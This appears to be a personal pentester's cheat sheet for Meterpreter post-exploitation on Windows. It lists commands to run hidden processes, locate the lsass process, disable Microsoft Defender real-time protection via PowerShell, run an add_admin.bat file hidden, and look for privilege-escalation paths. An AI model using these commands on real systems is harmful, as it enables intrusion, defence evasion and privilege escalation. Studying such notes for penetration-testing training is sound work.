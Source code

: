 ```yaml
---
tags:
  - "#msf"
  - "#meterpreter"
---
```



METERPRETER CHEAT SHEET

- for help specific to a command, type `help <command>` like `help execute` seen below
- execute cmd with argument and return output:
	- execute -i -H -f cmd -a "/c hostname"
	- execute -i -H -f wmic -a "bios get version"
	- execute -i -H -f nslookup
	- execute -i -H -f whoami

- use 'pgrep' to search for process by name, returns PID
	- pgrep lsass

![[Pasted image 20231202143545.png]]

- Disable MS Defender Real Time Protection using powershell command after dropping into cmd shell
	- powershell.exe "Set-MpPreference -DisableRealtimeMonitoring $true"

- execute a file in the current working directory (hide cmd window)
	- execute -H -f add_admin.bat

- background a session just by typing `background`
	- resume that session with `session -i <session_number>` > `session -i 1`
	- check open sessions with `sessions`
	- ![[Pasted image 20231202144404.png]]
### Post Exploitation
- run winpeas to enumerate device and check for openings
- run local_exploit_suggester to check for possible local exploits to run for priv esc
	- `run post/multi/recon/local_exploit_suggester`
	- you then back out to msf and then load the post exploit module and set SESSION option to whatever your session number is. It will perform the exploit against that session
- any other meterpreter modules can be loaded this way